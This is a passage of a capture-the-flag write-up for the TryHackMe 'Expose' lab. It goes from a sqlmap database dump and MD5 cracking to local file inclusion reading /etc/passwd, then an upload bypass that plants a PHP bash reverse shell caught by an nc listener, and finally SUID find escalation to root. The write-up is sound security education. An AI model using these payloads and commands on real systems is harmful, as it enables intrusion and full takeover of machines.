| 1  | hacker@root.thm | 2023-02-21 09:05:46 | VeryDifficultPassword!!#@#@!#!@#1231 |
+----+-----------------+---------------------+--------------------------------------+
[13:29:03] [INFO] fetching columns for table 'config' in database 'expose'
[13:29:03] [INFO] retrieved: 'id'
[13:29:03] [INFO] retrieved: 'int'
[13:29:03] [INFO] retrieved: 'url'
[13:29:04] [INFO] retrieved: 'text'
[13:29:04] [INFO] retrieved: 'password'
[13:29:04] [INFO] retrieved: 'text'
[13:29:04] [INFO] fetching entries for table 'config' in database 'expose'
[13:29:05] [INFO] retrieved: '/file1010111/index.php'
[13:29:05] [INFO] retrieved: '1'
[13:29:05] [INFO] retrieved: '69c66901194a6486176e81f5945b8929'
[13:29:05] [INFO] retrieved: '/upload-cv00101011/index.php'
[13:29:06] [INFO] retrieved: '3'
[13:29:06] [INFO] retrieved: '// ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z'
[13:29:06] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[13:29:06] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[13:29:06] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[13:29:06] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[13:29:06] [INFO] starting 4 processes 
[13:29:11] [INFO] cracked password 'easytohack' for hash '69c66901194a6486176e81f5945b8929'                                                                                                        
Database: expose                                                                                                                                                                                   
Table: config
[2 entries]
+----+------------------------------+-----------------------------------------------------+
| id | url                          | password                                            |
+----+------------------------------+-----------------------------------------------------+
| 1  | /file1010111/index.php       | 69c66901194a6486176e81f5945b8929 (easytohack)       |
| 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
+----+------------------------------+-----------------------------------------------------+
[*] ending @ 13:29:18 /2025-12-29/
```
</details>

### Analysis of Endpoint: /file1010111/index.php


<details>
<summary>Click to open the source code</summary>

```html

<!DOCTYPE html>
<html lang="en">


<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Tourism Website</title>
 
    <script src='tailwind.min.js'></script> <!-- THIS IS OFFICIAL FILE - DO NOT CHANGE IT -->
  <link rel="stylesheet" href="style.css">
</head>

<body>
  <!-- Navigation Bar -->
  <nav class="bg-gray-900 text-white p-6">
    <div class="flex justify-between items-center">
      <a href="/" class="text-lg font-bold">Admin Access </a>
      <ul class="flex items-center gap-5">

  
      </ul>
    </div>
  </nav>


  <!-- Main Content -->
<main class=" mx-auto py-8  min-h-[80vh] flex items-center justify-center gap-10 flex-col xl:flex-row">
 <div class="fixed inset-0  flex items-center justify-center bg-gray-900 bg-opacity-50"><div class="bg-white rounded p-8 max-w-sm mx-auto"><form method="POST"><label class="block mb-4">Please enter the password:</label><input type="password" name="password" class="w-full p-2 border rounded"><button type="submit" class="bg-gray-900 text-white px-4 py-2 mt-4 rounded hover:bg-gray-700">Submit</button></form></div></div> 
</main>
  <!-- Footer -->
  <footer class="bg-gray-900 text-white flex items-center justify-center">
    <div class="text-center p-4">
      <p>All rights reserved.</p>
    </div>
  </footer></body>
</html>

```
</details>

---
#### Cryptographic Analysis: Cracking the MD5 Access Pass



#### Accessing the Hidden Content Upon authenticating with the recovered password

The application revealed a nearly empty page with a cryptic hint:
> [!TIP] "Parameter Fuzzing is also important :) or Can you hide DOM elements?"



<details>
<summary>Click to view the source code</summary>

```bash

<!DOCTYPE html>
<html lang="en">


<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Tourism Website</title>
 
    <script src='tailwind.min.js'></script> <!-- THIS IS OFFICIAL FILE - DO NOT CHANGE IT -->
  <link rel="stylesheet" href="style.css">
</head>

<body>
  <!-- Navigation Bar -->
  <nav class="bg-gray-900 text-white p-6">
    <div class="flex justify-between items-center">
      <a href="/" class="text-lg font-bold">Admin Access </a>
      <ul class="flex items-center gap-5">

  
      </ul>
    </div>
  </nav>


  <!-- Main Content -->
<main class=" mx-auto py-8  min-h-[80vh] flex items-center justify-center gap-10 flex-col xl:flex-row">
 <p class="mb-4"><strong>Parameter Fuzzing is also important :)  or Can you hide DOM elements? <strong></p><span  style="display: none;">Hint: Try file or view as GET parameters?</span>
 ```
 </details>

#### Inspecting the DOM for Hidden Clues
To investigate the hint regarding "hidden DOM elements," I inspected the page source code. This revealed a hidden `<span>` tag that was not visible in the browser UI due to the display: none; CSS property.

```html
<span style="display: none;">Hint: Try file or view as GET parameters?</span>
```
**Key Finding:** This hidden comment explicitly points toward a Local File Inclusion (LFI) vulnerability, suggesting that the application accepts file or view as parameters to fetch internal resources.

---

### Local File Inclusion (LFI) Exploitation

System Enumeration via /etc/passwd
Armed with the knowledge of the file parameter, I attempted to read the /etc/passwd file to identify valid system users.

```bash
curl -s -d "password=easytohack" "http://10.64.136.116:1337/file1010111/index.php?file=/etc/passwd" 
```
<details>
<summary>Click to view the response</summary>

```bash
<!DOCTYPE html>
<html lang="en">


<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Tourism Website</title>
 
    <script src='tailwind.min.js'></script> <!-- THIS IS OFFICIAL FILE - DO NOT CHANGE IT -->
  <link rel="stylesheet" href="style.css">
</head>

<body>
  <!-- Navigation Bar -->
  <nav class="bg-gray-900 text-white p-6">
    <div class="flex justify-between items-center">
      <a href="/" class="text-lg font-bold">Admin Access </a>
      <ul class="flex items-center gap-5">

  
      </ul>
    </div>
  </nav>


  <!-- Main Content -->
<main class=" mx-auto py-8  min-h-[80vh] flex items-center justify-center gap-10 flex-col xl:flex-row">
 <p>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
zeamkish:x:1001:1001:Zeam Kish,1,1,:/home/zeamkish:/bin/bash

ftp:x:114:121:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
bind:x:115:122::/var/cache/bind:/usr/sbin/nologin
Debian-snmp:x:116:123::/var/lib/snmp:/bin/false
redis:x:117:124::/var/lib/redis:/usr/sbin/nologin
mosquitto:x:118:125::/var/lib/mosquitto:/usr/sbin/nologin
fwupd-refresh:x:119:126:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
</p> 
</main>
  <!-- Footer -->
  <footer class="bg-gray-900 text-white flex items-center justify-center">
    <div class="text-center p-4">
      <p>All rights reserved.</p>
    </div>
  </footer></body>
</html>
```
</details>

---

### 🎯 **User Identification**
The formatted output revealed a specific system user that matched a previous database hint ("Username starting with Z"):

```bash
zeamkish:x:1001:1001:Zeam Kish,1,1,:/home/zeamkish:/bin/bash
```
### 🔃 Transitioning to the Upload Portal

**Connecting the Dots**
Through the successful exploitation of the LFI vulnerability, a specific system user, zeamkish, was identified. This discovery is pivotal as it correlates with the credential metadata previously exfiltrated from the expose database, which hinted that certain areas of the server were only accessible to usernames starting with "Z".

#### 🎳 Strategic Pivot
With the target username confirmed and the system structure mapped, the focus of the engagement shifted to the second hidden directory identified during the initial reconnaissance phase: /upload-cv00101011/.

Objective: Investigate if the zeamkish credentials or session can be leveraged to interact with the CV upload functionality, potentially leading to Remote Code Execution (RCE) through unrestricted file uploads.

> http://10.64.142.148:1337//upload-cv00101011/



<details>
<summary>click to view the source code</summary>

```bash
<!DOCTYPE html>
<html lang="en">


<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Tourism Website</title>
 
    <script src='tailwind.min.js'></script> <!-- THIS IS OFFICIAL FILE - DO NOT CHANGE IT -->
  <link rel="stylesheet" href="style.css">
</head>

<body>
  <!-- Navigation Bar -->
  <nav class="bg-gray-900 text-white p-6">
    <div class="flex justify-between items-center">
      <a href="/" class="text-lg font-bold">Admin Access </a>
      <ul class="flex items-center gap-5">

  
      </ul>
    </div>
  </nav>


<!DOCTYPE html>


  <!-- Main Content -->
<main class=" mx-auto py-8  min-h-[80vh] flex items-center justify-center gap-10 flex-col xl:flex-row">
 <div class="fixed inset-0  flex items-center justify-center bg-gray-900 bg-opacity-50"><div class="bg-white rounded p-8 max-w-sm mx-auto"><form method="POST" ><label class="block mb-4">Please enter the password: 
	  <br>Hint: It is the name of machine user starting with letter "z"</label><input type="password" name="password" class="w-full p-2 border rounded"><button type="submit" class="bg-gray-900 text-white px-4 py-2 mt-4 rounded hover:bg-gray-700">Submit</button></form></div></div> 
</main>
  <!-- Footer -->
  <footer class="bg-gray-900 text-white flex items-center justify-center">
    <div class="text-center p-4">
      <p>All rights reserved.</p>
    </div>
  </footer></body>

<script>


function validate(){

 var fileInput = document.getElementById('file');
  var file = fileInput.files[0];
  
  if (file) {
    var fileName = file.name;
    var fileExtension = fileName.split('.').pop().toLowerCase();
    
    if (fileExtension === 'jpg' || fileExtension === 'png') {
      // Valid file extension, proceed with file upload
      // You can submit the form or perform further processing here
      console.log('File uploaded successfully');
	  return true;
    } else {
      // Invalid file extension, display an error message or take appropriate action
      console.log('Only JPG and PNG files are allowed');
	  return false;
    }
  }
}

</script>
</html>
```
</details>

---

**🧠 "Hint: It is the name of machine user starting with letter 'z'"**



#### Analyzing the Upload Mechanism
The source code inspection revealed a JavaScript function named validate() responsible for filtering file types:

```javascript
if (fileExtension === 'jpg' || fileExtension === 'png') {
    // Valid file extension...
} else {
    console.log('Only JPG and PNG files are allowed');
}
```
**Security Flaw:** The application relies on Client-Side Validation to restrict file uploads to images (.jpg, .png). Since this check occurs in the browser, it can be bypassed by intercepting the request or disabling JavaScript, allowing the upload of malicious PHP scripts to achieve Remote Code Execution (RCE).

### Identifying the Upload Destination
After a successful test upload of a benign .png file, the server responded with a success message. By inspecting the page source once more, a hidden directory path was discovered:

**Hidden Path: /upload_thm_1001/**

Technical Logic: This information is vital for the next phase of the attack, as it confirms where the uploaded files are stored on the server. If the application does not rename the files or sanitize the extensions, we can directly invoke a malicious script from this location.

```html
!-- Main Content -->
<main class=" mx-auto py-8  min-h-[80vh] flex items-center justify-center gap-10 flex-col xl:flex-row">
 <h1>File uploaded successfully! Maybe look in source code to see the path<span style=" display: none;">in /upload_thm_1001 folder</span> <h1>
```

### Achieving Remote Code Execution (RCE)

The Strategy: Bypassing Client-Side Validation
While the upload portal attempted to restrict files to .jpg and .png using a JavaScript validate() function, this security measure is easily bypassed since it only runs in the user's browser.

To gain a more stable and interactive foothold, I decided to bypass the web interface entirely and use cURL to upload a PHP Reverse Shell. This approach directly communicates with the server, ignoring any local JavaScript restrictions.

#### Payload Preparation

A PHP script was prepared to initiate a reverse TCP connection back to my attacking machine. Unlike a simple Web Shell (which requires a new HTTP request for every command), a Reverse Shell provides a continuous, interactive session.

```bash
cat shell.php 
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/[REDACTED]/1234 0>&1'"); ?>
```

#### Execution and Connection
Listener Setup: On my local terminal, I initialized a Netcat listener to wait for the incoming connection:

```bash
nc -lvnp 1234
```
**Automated Upload via cURL:** I sent the payload directly to the server, passing the required password (zeamkish) and the malicious file:

```bash
curl -i -X POST -F "password=zeamkish" -F "file=@shell.php" http://10.64.136.116:1337/upload-cv00101011/index.php
```
**Triggering the Shell:** Once the upload was confirmed, I navigated to the hidden directory discovered in the previous step to execute the script:

```bash
http://10.64.136.116:1337/upload_thm_1001/shell.php
```
### Results
The server executed the PHP code, and the Netcat listener immediately captured the connection, granting access as the service user: www-data.

## Post-Exploitation 

```bash
www-data@ip-10-64-142-148:/$ whoami
whoami
www-data
www-data@ip-10-64-142-148:/$ ls
ls
'"'     dev    lib     libx32       mnt    root   snap   tmp
 bin    etc    lib32   lost+found   opt    run    srv    usr
 boot   home   lib64   media        proc   sbin   sys    var
www-data@ip-10-64-142-148:/$ cd /home
cd /home
www-data@ip-10-64-142-148:/home$ ls
ls
ubuntu  zeamkish
www-data@ip-10-64-142-148:/home$ cd zeamkish
cd zeamkish
www-data@ip-10-64-142-148:/home/zeamkish$ ls -la
ls -la
total 36
drwxr-xr-x 3 zeamkish zeamkish 4096 Jul  6  2023 .
drwxr-xr-x 4 root     root     4096 Jun 30  2023 ..
-rw-rw-r-- 1 zeamkish zeamkish   51 Dec 30 01:24 .bash_history
-rw-r--r-- 1 zeamkish zeamkish  220 Jun  8  2023 .bash_logout
-rw-r--r-- 1 zeamkish zeamkish 3771 Jun  8  2023 .bashrc
drwx------ 2 zeamkish zeamkish 4096 Jun  8  2023 .cache
-rw-r--r-- 1 zeamkish zeamkish  807 Jun  8  2023 .profile
-rw-r----- 1 zeamkish zeamkish   27 Jun  8  2023 flag.txt
-rw-rw-r-- 1 root     zeamkish   34 Jun 11  2023 ssh_creds.txt
www-data@ip-10-64-142-148:/home/zeamkish$ cat ssh_creds.txt
cat ssh_creds.txt
SSH CREDS
zeamkish
easytohack@123
www-data@ip-10-64-142-148:/home/zeamkish$ su zeamkish
su zeamkish
Password: easytohack@123

zeamkish@ip-10-64-142-148:~$ cat flag.txt
cat flag.txt
THM{USER_FLAG_[REDACTED]}
```
## ,🚀 Privilege Escalation

**Horizontal Escalation (Pivot to SSH)**

After gaining an initial foothold as www-data, a file named ssh_creds.txt was found in /home/zeamkish. To ensure a stable and interactive session, I opted to use SSH instead of a standard shell upgrade.

Command:

```bash
ssh zeamkish@10.64.142.148
# Password: easytohack@123
```

**Vertical Enumeration**

Once logged in as zeamkish, I performed local enumeration to find a path to Root.

> Sudo Check: sudo -l confirmed that zeamkish is not in the sudoers file.

> Cron Jobs: cat /etc/crontab showed only default system tasks.

#### SUID Search: I searched for binaries with the SetUID bit enabled to find misconfigurations.

Command:

```bash
find / -perm -4000 2>/dev/null
```

The output revealed a critical vulnerability: **/usr/bin/find** was set with SUID permissions.

### Root Exploitation

The find utility allows for command execution via the -exec flag. Since the binary has the SUID bit, the executed command runs with the owner's privileges (Root).

Exploit Execution:

```bash
zeamkish@ip-10-64-142-148:~$ find . -exec /bin/sh -p \; -quit
# whoami
root
# cd /root
# ls
flag.txt  snap
# cat flag.txt
THM{ROOT_[REDACTED]}
# 
```
### Conclusion: Educational Takeaways
The Expose room provides an excellent, realistic simulation of a multi-stage attack vector. It challenges the researcher to connect different vulnerability classes—moving from web-based flaws to system misconfigurations—to achieve a full compromise.

#### Key Learning Outcomes:

Defense in Depth: The room demonstrates that security is only as strong as its weakest link. A single SQL Injection or a misconfigured file upload can lead to total system takeover if internal permissions are not hardened.

The Danger of Client-Side Trust: Exploiting the upload portal reinforced the principle that JavaScript is not a security boundary, as it can be easily bypassed by intercepting requests or using command-line tools like cURL.

Post-Exploitation Persistence: Moving from a volatile Reverse Shell to a stable SSH session proved crucial for a methodical enumeration process.

Binary Misconfiguration: The final escalation via the find SUID bit highlighted the critical importance of the Principle of Least Privilege. Binaries with shell-out capabilities should never have elevated permissions without strict necessity.

Overall, this laboratory is a high-quality exercise in chained exploitation, demanding both web application security knowledge and Linux system administration skills.

> PWNED! 🚩
By Hirt, Nelson
